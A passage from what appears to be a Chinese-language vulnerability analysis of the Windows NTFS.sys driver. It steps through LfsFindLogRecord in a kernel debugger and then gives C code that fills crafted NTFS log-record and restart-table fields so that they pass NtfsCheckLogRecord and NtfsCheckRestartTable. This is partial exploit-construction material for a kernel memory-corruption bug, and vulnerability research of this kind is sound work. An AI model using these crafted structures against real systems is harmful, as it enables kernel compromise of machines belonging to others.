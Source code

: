 ```
fffff801`1e9c54a3 4103d0          add     edx,r8d ; Here NTFS.sys adds RecordHeaderLength and ClientDataLength field and result is stored back into edx
1: kd> p
rax=fffffa07e5d6ab78 rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=000000000000002f rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54a6 rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040203
Ntfs!LfsFindLogRecord+0x6e:
fffff801`1e9c54a6 8bc2            mov     eax,edx ; Here you can see result of add operation in edx its equal to 2fh
1: kd> p
rax=000000000000002f rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=000000000000002f rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54a8 rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040203
Ntfs!LfsFindLogRecord+0x70:
fffff801`1e9c54a8 483b8770010000  cmp     rax,qword ptr [rdi+170h] ds:002b:ffffc60b`7873ced0=00000000001f4100 ; Here NTFS.sys compares TotalAvailable and eax
1: kd> p
rax=000000000000002f rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=000000000000002f rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54af rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei ng nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040283
Ntfs!LfsFindLogRecord+0x77:
fffff801`1e9c54af 7d47            jge     Ntfs!LfsFindLogRecord+0xc0 (fffff801`1e9c54f8) [br=0] ; Comparasion is sucessfully satisfied. Branch is not taken.
```  
  
最后一步是绕过 ntfs!NtfsCheckLogRecord  
和 ntfs!NtfsCheckRestartTable  
函数的检查。由于这主要涉及构造满足这两个函数检查的结构，我不会详细描述每个细节。以下是我填充的字段内容。  
```
  ...
  lpNtfsLogRecordHeader->RedoOperation = 0x06;
  lpNtfsLogRecordHeader->UndoOperation = 0x02;
  lpNtfsLogRecordHeader->RedoOffset = 0x100;
  lpNtfsLogRecordHeader->RedoLength = 0x100;
  lpNtfsLogRecordHeader->UndoOffset = 0x200;
  lpNtfsLogRecordHeader->UndoLength = 0x100;
  lpNtfsLogRecordHeader->TargetAttribute = 0xb8;
  lpNtfsLogRecordHeader->LcnsToFollow = 0x4242;
  lpNtfsLogRecordHeader->RecordOffset = 0x50;
  lpNtfsLogRecordHeader->AttributeOffset = 0x0;
  lpNtfsLogRecordHeader->ClusterBlockOffset = 0x0;
  lpNtfsLogRecordHeader->Reserved = 0;
  lpNtfsLogRecordHeader->TargetVcn = 0;
  lpNtfsLogRecordHeader->LcnsForPage[0] = 0;
  ...
  lpRestartTable->EntrySize = 0x4343;
  lpRestartTable->NumberEntries = 0x01;
  lpRestartTable->NumberAllocated = 0x01;
  lpRestartTable->Flags = 0x00;
```